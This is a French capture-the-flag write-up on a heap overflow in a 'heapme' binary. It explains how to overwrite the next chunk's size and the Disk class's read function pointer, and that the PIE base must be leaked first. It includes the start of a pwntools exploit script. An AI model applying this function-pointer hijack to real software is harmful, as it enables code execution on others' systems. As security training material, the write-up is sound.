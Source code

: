 Maintenant si on s'interesse à ce qui est alloué dans ces chunks, on remarque que c'est la classe `Disk`. Les 16 premiers bytes contiennent les adresses des fonctions de la classe. Autrement dit, read et write.

Connaisant la taille allouée lors de la création d'un disque on peut réécrire la taille du prochain bloc de la heap. Ensuite, il est possible d'écrire une nouvelle adresse pour la fonction read permettant de sauter à l'adresse écrite lors de l'overflow:

![](/lib/images/writeups/2020_hexpresso_fic/upload_b78b93d6a8b704bda3ee16a8b9f14708.png)

Maintenant, il est nécessaire de leak la `PIE` pour s'avoir où sauter.

> taille de 1 pour disque = 24 bytes de données
> 33ème byte adresse du prochain disk
> 8 premier bytes de cette meme adresse contient l'adresse de read
> 8 prochain write
> //33ème byte fonction read
> //41ème byte fonction write


cf photo
pour un peu plus de précision:

![](/lib/images/writeups/2020_hexpresso_fic/upload_becc3a7bf68a375d7ab6de210088c36a.png)

``` python
from pwn import *

def createdisk(index, size):
    print(sh.recv()),
    sh.sendline("0")
    print(0)
    print(sh.recv()),
    sh.send("%d\n" % size)
    print(size)
    print(sh.recv()),
    sh.send("%d\n" % index)
    print(sh.recvline()),

def writedisk(index, data):
    print(sh.recv()),
    sh.sendline("2")
    print(2)
    print(sh.recv()),
    sh.send("%d\n" % index)
    print(sh.recv()),
    sh.send("%s\n" % data)
    print(data)

def readdisk(index):
    print(sh.recv()),
    sh.sendline("1")
    print(1)
    print(sh.recv()),
    sh.send("%d\n" % index)
    print(index)
    a=sh.recvline()
    a=sh.recvline()
    print(len(a) - len("Data: "))
    print(a.decode('utf-8'))
    for i in a:
        print("%x " % (ord(i))),
    #print(len(a))

sh = process('./heapme_patched')
createdisk(0, 1)
```